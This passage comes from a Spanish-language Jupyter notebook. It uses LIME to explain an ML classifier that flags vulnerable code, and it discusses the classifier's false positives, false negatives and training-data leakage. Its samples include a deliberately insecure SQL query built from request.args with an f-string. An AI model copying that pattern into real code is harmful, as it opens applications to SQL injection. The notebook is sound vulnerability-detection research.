

In [26]:
explainer_reto = LimeTextExplainer(class_names=class_names, random_state=RANDOM_STATE,
                                   split_expression=r"[^\w$]+")  # separa también por símbolos de código

def lime_fragmento(modelo, n, num_features=8, titulo=""):
    codigo = df_frag.loc[n, "codigo"]
    proba = modelo.predict_proba([codigo])[0]
    exp_r = explainer_reto.explain_instance(codigo, lambda t: modelo.predict_proba(list(t)),
                                            num_features=num_features, labels=[1], num_samples=3000)
    pesos = pd.DataFrame(exp_r.as_list(label=1), columns=["token", "peso_hacia_vulnerable"])
    print("=" * 90)
    print(f"[{n}] {df_frag.loc[n, 'tipo']} {titulo} | real={df_frag.loc[n, 'etiqueta_real']} | "
          f"P(seguro)={proba[0]:.3f} P(vulnerable)={proba[1]:.3f}")
    print(codigo)
    display(pesos)
    plt.figure(figsize=(7, 3))
    colores = ["#c0392b" if w > 0 else "#2e86c1" for w in pesos["peso_hacia_vulnerable"]]
    plt.barh(pesos["token"], pesos["peso_hacia_vulnerable"], color=colores)
    plt.gca().invert_yaxis()
    plt.axvline(0, color="black", linewidth=1)
    plt.xlabel("Peso hacia 'vulnerable'")
    plt.title(f"LIME [{n}] {df_frag.loc[n, 'tipo']} {titulo}")
    plt.tight_layout(); plt.show()
    return pesos

# Los 3 fragmentos vulnerables elegidos (todos predichos como 'vulnerable' por el modelo mejorado)
for n in [1, 3, 5]:
    lime_fragmento(model_mejorado, n, titulo="(modelo mejorado)")

### LIME complementario: el falso positivo y un falso negativo del modelo original

[10] Deserializacion con JSON (modelo mejorado - falso positivo) | real=seguro | P(seguro)=0.258 P(vulnerable)=0.742
payload = json.loads(request.get_data(as_text=True))


,token,peso_hacia_vulnerable
0,request,0.233518
1,loads,0.110341
2,as_text,-0.047914
3,get_data,0.030325
4,True,-0.008243
5,json,-0.006126
6,payload,-0.000323




[1] SQL Injection (Python f-string) (modelo original - falso negativo) | real=vulnerable | P(seguro)=0.802 P(vulnerable)=0.198
cursor.execute(f"SELECT * FROM orders WHERE customer_id = {request.args['id']}")


,token,peso_hacia_vulnerable
0,id,-0.160309
1,cursor,-0.100591
2,SELECT,-0.094925
3,FROM,-0.094301
4,execute,-0.062613
5,WHERE,-0.015080
6,args,-0.005221
7,f,-0.004516




In [27]:
lime_fragmento(model_mejorado, 10, titulo="(modelo mejorado - falso positivo)")
_ = lime_fragmento(model, 1, titulo="(modelo original - falso negativo)")

## R6. Análisis y conclusiones

**Resultados.** El modelo original acertó 7/10 (recall de `vulnerable` = 0.40) y el mejorado 9/10 (recall = 1.00, precision = 0.83).

**Por qué falló el original.** (1) Se entrenó con la columna `Preprocessed Tokens` (texto con formato de lista de Python) y no con el código real; (2) la clase `seguro` lleva la marca `# safe_example_N`, una fuga que explica el accuracy de 1.0 en test; (3) solo hay 10 fragmentos vulnerables únicos (SQLi y XSS) repetidos 100 veces; (4) los seguros sintéticos contienen `cursor.execute('SELECT ... ?')`, de modo que `cursor`, `SELECT` y `FROM` empujan hacia `seguro`. Por eso una SQLi escrita con f-string se clasificó como segura, y Path Traversal y pickle (clases que el modelo nunca vio) también.

**LIME.** En el modelo mejorado, los tokens que más pesan son `request`, `args`, `$_GET`, `shell_exec`, `pickle` y `loads`, que corresponden a *fuentes* de entrada no confiable y *sumideros* peligrosos. Aun así, el modelo no entiende el flujo de datos: el falso positivo `json.loads(request...)` muestra que aprendió “`request` + `loads` = vulnerable” sin distinguir `json` de `pickle`.

**Limitaciones.** La validación cruzada del modelo mejorado (F1-macro ≈ 0.43) revela que 30 ejemplos únicos son insuficientes. El 9/10 en los fragmentos nuevos es alentador, pero con apenas 10 casos no es estadísticamente concluyente.

**Siguiente paso recomendado.** Usar un dataset real con pares vulnerable/corregido (Big-Vul, CVEfixes), separar train/test por proyecto o plantilla y combinar el modelo con análisis estático (Semgrep, Bandit, CodeQL), que sí rastrea el flujo fuente→sumidero.

El informe completo está en `Informe_Taller_01.md`.